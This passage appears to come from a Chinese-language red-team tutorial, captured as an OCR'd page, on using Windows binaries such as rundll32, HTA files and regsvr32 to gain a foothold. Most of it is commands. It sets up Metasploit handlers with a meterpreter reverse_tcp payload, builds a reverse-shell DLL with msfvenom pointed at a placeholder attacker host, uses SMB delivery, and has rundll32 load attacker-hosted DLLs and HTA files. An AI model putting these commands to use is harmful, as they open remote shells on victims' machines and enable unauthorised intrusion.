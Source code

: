 这里 handler 相当于一键设置 exploit/multi/handler 和 Payload。

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost <Host>
set lport <Port>
exploit -j
```

3.Cobalt Strike HTA 上线

Cobalt Strike 也可以生成 hta 文件，在菜单 Attacks -> HTML Application 生成。

#### 2.1.3 Rundll32

Rundll32 用于运行 32 位 DLL 文件，说白了就是能执行 dll 中代码。

可以执行 .hta 上线。

```bash
rundll32.exe url.dll,OpenURL attack.hta
```

或者是通过 MSF SMB Delivery 上线。

设置共享 dll 服务监听 IP 和端口，默认监听 0.0.0.0:445

```bash
use exploit/windows/smb/smb_delivery
```

启动完成将给出 .dll 文件地址。

```bash
rundll32.exe \\Host\test.dll,0
```

默认共享不方便使用，可以找到 MSF 生成的 .dll 复制下来用 http 服务托管加载。

```bash
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=<Host> LPORT=<Port> -f dll > attack.dll
```

msf 使用指定 Payload 监听。

```bash
handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

客户端加载上线。

```bash
rundll32 shell32.dll,Control_RunDLL attack.dll
```

#### 2.1.4 Regsvr32

Regsvr32 用于注册 .dll 文件为组件。

存放在 %systemroot%\\System32\\regsvr32.exe。
